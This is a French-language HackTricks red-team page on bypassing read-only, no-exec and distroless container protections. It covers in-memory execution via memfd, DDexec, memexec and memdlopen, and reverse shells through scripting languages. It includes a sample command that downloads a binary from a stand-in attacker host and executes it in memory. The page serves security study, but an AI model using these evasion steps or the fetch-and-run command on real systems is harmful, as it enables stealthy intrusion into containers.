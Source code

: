 # Contourner les protections FS : lecture seule / pas d'exécution / Distroless

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en piratage** et pirater l'impossible - **nous recrutons !** (_maîtrise du polonais écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Vidéos

Dans les vidéos suivantes, vous trouverez les techniques mentionnées sur cette page expliquées plus en détail :

* [**DEF CON 31 - Exploration de la manipulation de la mémoire Linux pour la discrétion et l'évasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusions furtives avec DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scénario lecture seule / pas d'exécution

Il est de plus en plus courant de trouver des machines Linux montées avec une protection de système de fichiers en **lecture seule (ro)**, notamment dans les conteneurs. Cela est dû au fait qu'il est facile d'exécuter un conteneur avec un système de fichiers en ro en définissant simplement **`readOnlyRootFilesystem: true`** dans le `securitycontext` :

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Cependant, même si le système de fichiers est monté en ro, **`/dev/shm`** restera inscriptible, donc il est faux de penser que nous ne pouvons rien écrire sur le disque. Cependant, ce dossier sera **monté avec une protection no-exec**, donc si vous téléchargez un binaire ici, vous **ne pourrez pas l'exécuter**.

{% hint style="warning" %}
D'un point de vue d'équipe rouge, cela rend **compliqué le téléchargement et l'exécution** de binaires qui ne sont pas déjà présents dans le système (comme des portes dérobées ou des outils d'énumération comme `kubectl`).
{% endhint %}

## Contournement le plus simple : Scripts

Notez que j'ai mentionné les binaires, vous pouvez **exécuter n'importe quel script** tant que l'interpréteur est présent dans la machine, comme un **script shell** si `sh` est présent ou un **script python** si `python` est installé.

Cependant, cela ne suffit pas pour exécuter votre porte dérobée binaire ou d'autres outils binaires dont vous pourriez avoir besoin d'exécuter.

## Contournements de la mémoire

Si vous souhaitez exécuter un binaire mais que le système de fichiers ne le permet pas, la meilleure façon de le faire est en l'exécutant depuis la mémoire, car les **protections ne s'appliquent pas là**.

### Contournement de l'appel système FD + exec

Si vous disposez de moteurs de script puissants dans la machine, tels que **Python**, **Perl** ou **Ruby**, vous pourriez télécharger le binaire à exécuter depuis la mémoire, le stocker dans un descripteur de fichier en mémoire (`create_memfd` syscall), qui ne sera pas protégé par ces protections, puis appeler un **appel système `exec`** en indiquant le **fd comme fichier à exécuter**.

Pour cela, vous pouvez facilement utiliser le projet [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Vous pouvez lui passer un binaire et il générera un script dans le langage indiqué avec le **binaire compressé et encodé en b64** avec les instructions pour **le décoder et le décompresser** dans un **fd** créé en appelant la syscall `create_memfd` et un appel à l'appel système **exec** pour l'exécuter.

{% hint style="warning" %}
Cela ne fonctionne pas dans d'autres langages de script comme PHP ou Node car ils n'ont pas de **moyen par défaut d'appeler des appels système bruts** à partir d'un script, il n'est donc pas possible d'appeler `create_memfd` pour créer le **fd en mémoire** pour stocker le binaire.

De plus, la création d'un **fd régulier** avec un fichier dans `/dev/shm` ne fonctionnera pas, car vous ne serez pas autorisé à l'exécuter en raison de la **protection no-exec** qui s'appliquera.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) est une technique qui vous permet de **modifier la mémoire de votre propre processus** en écrivant dans son **`/proc/self/mem`**.

Par conséquent, en **contrôlant le code assembleur** qui est exécuté par le processus, vous pouvez écrire un **shellcode** et "muter" le processus pour **exécuter n'importe quel code arbitraire**.

{% hint style="success" %}
**DDexec / EverythingExec** vous permettra de charger et d'**exécuter** votre propre **shellcode** ou **n'importe quel binaire** depuis la **mémoire**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Pour plus d'informations sur cette technique, consultez le Github ou :

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) est la prochaine étape naturelle de DDexec. C'est un **démon de shellcode DDexec**, donc chaque fois que vous voulez **exécuter un binaire différent**, vous n'avez pas besoin de relancer DDexec, vous pouvez simplement exécuter le shellcode memexec via la technique DDexec et ensuite **communiquer avec ce démon pour transmettre de nouveaux binaires à charger et exécuter**.

Vous pouvez trouver un exemple de **comment utiliser memexec pour exécuter des binaires à partir d'un shell PHP inversé** dans [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Dans un but similaire à DDexec, la technique [**memdlopen**](https://github.com/arget13/memdlopen) permet une **manière plus facile de charger des binaires** en mémoire pour les exécuter ultérieurement. Cela pourrait même permettre de charger des binaires avec des dépendances.

## Contournement de Distroless

### Qu'est-ce que Distroless

Les conteneurs Distroless contiennent uniquement les **composants strictement nécessaires pour exécuter une application ou un service spécifique**, tels que des bibliothèques et des dépendances d'exécution, mais excluent des composants plus importants comme un gestionnaire de paquets, un shell ou des utilitaires système.

L'objectif des conteneurs Distroless est de **réduire la surface d'attaque des conteneurs en éliminant les composants inutiles** et en minimisant le nombre de vulnérabilités exploitables.

### Shell Inversé

Dans un conteneur Distroless, vous pourriez **ne pas trouver même `sh` ou `bash`** pour obtenir un shell classique. Vous ne trouverez pas non plus des binaires tels que `ls`, `whoami`, `id`... tout ce que vous exécutez habituellement dans un système.

{% hint style="warning" %}
Par conséquent, vous **ne pourrez pas** obtenir un **shell inversé** ou **énumérer** le système comme vous le faites habituellement.
{% endhint %}

Cependant, si le conteneur compromis exécute par exemple une application web Flask, alors Python est installé, et donc vous pouvez obtenir un **shell Python inversé**. S'il exécute Node, vous pouvez obtenir un shell Node, et de même avec la plupart des **langages de script**.

{% hint style="success" %}
En utilisant le langage de script, vous pourriez **énumérer le système** en utilisant les capacités du langage.
{% endhint %}

S'il n'y a **pas de protections `lecture seule/sans exécution`**, vous pourriez abuser de votre shell inversé pour **écrire dans le système de fichiers vos binaires** et les **exécuter**.

{% hint style="success" %}
Cependant, dans ce type de conteneurs, ces protections existent généralement, mais vous pourriez utiliser les **techniques d'exécution en mémoire précédentes pour les contourner**.
{% endhint %}

Vous pouvez trouver des **exemples** sur **comment exploiter certaines vulnérabilités RCE** pour obtenir des **shells inversés de langages de script** et exécuter des binaires en mémoire dans [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en hacking** et pirater l'impossible - **nous recrutons !** (_maîtrise du polonais écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
